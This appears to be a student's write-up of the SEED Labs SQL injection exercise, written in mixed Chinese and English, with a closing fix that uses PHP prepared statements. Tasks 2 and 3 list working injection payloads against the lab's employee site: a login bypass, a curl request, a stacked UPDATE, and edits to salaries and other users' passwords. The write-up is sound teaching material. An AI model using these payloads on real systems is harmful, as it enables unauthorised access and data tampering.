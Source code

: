 # SQL Injection

## Task 1: Get Familiar with SQL Statements

## Task 2: SQL Injection Attack on SELECT Statement

### Task 2.1: SQL Injection Attack from webpage.

Username: `admin'#`

Password: 随意

### Task 2.2: SQL Injection Attack from command line.

`curl http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=1`

### Task 2.3: Append a new SQL statement.

Username: `1';UPDATE credential SET nickname='aalice' where eid=10000#`

Password: 随意

报错：

```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'UPDATE credential SET nickname='aalice' where eid=10000#' and Password='356a192b' at line 3]\n
```

## Task 3: SQL Injection Attack on UPDATE Statement

### Task 3.1: Modify your own salary.

在Phone number一栏输入`', salary='10000000`。

### Task 3.2: Modify other people’ salary.

在Phone number一栏输入`', salary='1' where EID=20000#`。

### Task 3.3: Modify other people’ password.

在Phone number一栏输入`' where EID=20000#`

Password一栏输入`123`

## Task 4: Countermeasure — Prepared Statement

```shell
# nano /var/www/SQL_Injection/defense/unsafe.php
```

```php
[...]
// do the query
$stmt = $conn->prepare("SELECT id, name, eid, salary, ssn
                        FROM credential
                        WHERE name= ? and Password= ?");
$stmt->bind_param("ss", $input_uname, $hashed_pwd);
$stmt->execute();
$stmt->bind_result($id, $name, $eid, $salary, $ssn);
$stmt->fetch();

// close the sql connection
$conn->close();
[...]
```

